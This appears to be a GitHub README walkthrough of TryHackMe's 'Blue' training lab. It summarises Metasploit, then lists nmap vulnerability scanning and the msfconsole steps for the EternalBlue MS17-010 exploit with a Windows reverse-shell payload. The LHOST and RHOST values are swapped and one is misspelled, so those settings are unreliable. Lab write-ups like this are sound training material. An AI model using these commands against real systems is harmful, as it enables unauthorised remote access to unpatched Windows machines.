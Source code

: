 # TryHackMe_BLUE

### Overview

Metasploit runs on Unix (including Linux and macOS) and on Windows. The Metasploit Framework can be extended to use add-ons in multiple languages.

The basic steps for exploiting a system using the Framework include.

1. Optionally checking whether the intended target system is vulnerable to an exploit.
2. Choosing and configuring an exploit (code that enters a target system by taking advantage of one of its bugs; about 900 different exploits for Windows, Unix/Linux and macOS systems are included).
3. Choosing and configuring a payload (code that will be executed on the target system upon successful entry; for instance, a remote shell or a VNC server). Metasploit often recommends a payload that should work.
4. Choosing the encoding technique so that hexadecimal opcodes known as "bad characters" are removed from the payload, these characters will cause the exploit to fail.
5. Executing the exploit.

This modular approach – allowing the combination of any exploit with any payload – is the major advantage of the Framework. It facilitates the tasks of attackers, exploit writers and payload writers.

To choose an exploit and payload, some information about the target system is needed, such as operating system version and installed network services. This information can be gleaned with port scanning and TCP/IP stack fingerprinting tools such as Nmap. Vulnerability scanners such as Nessus, and OpenVAS can detect target system vulnerabilities. Metasploit can import vulnerability scanner data and compare the identified vulnerabilities to existing exploit modules for accurate exploitation

### Practice

On TryHackMe there is a room to help users practice learning about metasploit [Link Here](https://tryhackme.com/room/blue)


We start the lab.

#### Recon

We first need to determine what damage is on the target by scanning `nmap`.
> nmap -sV -vv --script vuln <Ip_victim>

*-sV: version detection*

*-vv: shows the level of detail*

*--script vuln: These scripts check for specific known vulnerabilities and generally only report results if they are found*

![image](https://user-images.githubusercontent.com/63194321/147560340-55189387-930b-4605-b37a-dcf07ce1b63b.png)
![image](https://user-images.githubusercontent.com/63194321/147560843-2a1b95d1-cdb7-4256-b106-648f92649805.png)
![image](https://user-images.githubusercontent.com/63194321/147560632-6af1deb1-80a8-4973-94f8-66c6a8358d35.png)

As you can see, we have scanned for a vulnerability `ms17-010` that allows us to be able to remote code execution.

#### Gain Access


After finding an accessible vulnerability, we can use `metasploit` to launch an attack.

**Step1:** Open `metasploit`.
> msfconsole

Interface of `metasploit`:

![image](https://user-images.githubusercontent.com/63194321/147561220-8a4831d7-3f93-42e2-af04-d876d707e783.png)

**Step2:** Look for ways to attack vulnerabilities with known names.
> search <name_vulnerabilities>

![image](https://user-images.githubusercontent.com/63194321/147561451-902938d4-621c-424d-b5b0-3ce64d4aff79.png)

**Step3:** Select the module to conduct the attack.

Here we attack the module `eternalblue`.

*EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol*
> use 0 `or` use exploit/windows/smb/ms17_010_eternalblue

![image](https://user-images.githubusercontent.com/63194321/147561926-15aa4a8a-17a8-4b4c-8ea4-cc3693792e3d.png)

**Step3:** We set the payload so that the module can perform the exploit.
> set LHOSTS <victim_ip>
> 
> set payload windows/x64/shell/reverse_tcp
> 
> set RHOST <attack_ip>

![image](https://user-images.githubusercontent.com/63194321/147562379-850a66b9-f3a3-44be-bf71-68d1def5318b.png)

*`tun0` here is TryHackMe's vpn network.*

**Step5:** Exploit
> exploit `or` run

![image](https://user-images.githubusercontent.com/63194321/147562829-03c1adcf-ea70-46c3-9402-a92299865c94.png)







